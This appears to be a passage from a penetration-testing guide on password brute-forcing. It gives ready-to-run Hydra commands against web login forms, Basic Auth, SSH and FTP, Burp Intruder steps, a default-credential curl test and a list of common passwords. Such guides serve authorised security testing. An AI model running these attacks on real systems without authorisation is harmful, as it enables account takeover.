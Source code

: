 
## Authentication & Session Management

### Password Brute-Forcing

**Hydra (multi-protocol brute-force):**

```bash
# HTTP POST form brute-force
hydra -l admin -P /usr/share/wordlists/rockyou.txt target.com http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"

# Explanation:
# -l admin: Username is "admin"
# -P rockyou.txt: Password wordlist
# http-post-form: Protocol
# /login: Target path
# username=^USER^&password=^PASS^: POST parameters
# F=incorrect: Failure string in response

# HTTP Basic Auth
hydra -l admin -P passwords.txt target.com http-get /admin/

# SSH brute-force
hydra -l root -P passwords.txt ssh://target.com

# FTP brute-force
hydra -l admin -P passwords.txt ftp://target.com
```

**Burp Suite Intruder:**

1. **Capture login request in Burp Proxy**
2. **Right-click → Send to Intruder**
3. **Positions tab: Mark password parameter**
   ```
   username=admin&password=§FUZZ§
   ```
4. **Payloads tab: Load password list**
5. **Options tab: Grep - Match for success indicators**
6. **Start attack**

**Detecting weak passwords:**

```bash
# Common credentials test
curl -X POST http://target.com/api/login \
    -H "Content-Type: application/json" \
    -d '{"username":"admin","password":"admin"}'

# Top 25 most common passwords:
# 123456, password, 12345678, qwerty, 123456789, 12345, 1234, 111111, 1234567, dragon, 123123, baseball, abc123, football, monkey, letmein, shadow, master, 666666, qwertyuiop, 123321, mustang, 1234567890, michael, 654321
```
